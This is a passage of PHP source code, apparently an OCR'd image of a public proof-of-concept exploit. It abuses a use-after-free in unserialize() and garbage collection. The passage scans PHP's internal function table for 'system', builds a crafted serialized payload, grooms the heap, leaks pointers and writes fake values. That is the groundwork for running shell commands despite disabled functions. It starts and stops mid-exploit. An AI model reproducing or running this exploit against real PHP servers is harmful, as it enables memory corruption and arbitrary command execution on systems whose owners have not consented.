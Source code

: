 ```php
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;
        
        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
```